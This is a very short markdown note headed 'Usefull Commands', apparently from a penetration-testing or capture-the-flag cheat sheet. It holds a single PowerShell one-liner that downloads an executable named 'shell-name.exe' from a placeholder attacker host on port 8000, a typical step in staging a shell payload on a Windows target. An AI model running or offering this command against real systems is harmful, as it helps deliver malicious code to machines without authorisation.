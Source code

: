 # Usefull Commands

## Download file

```bash
$ powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```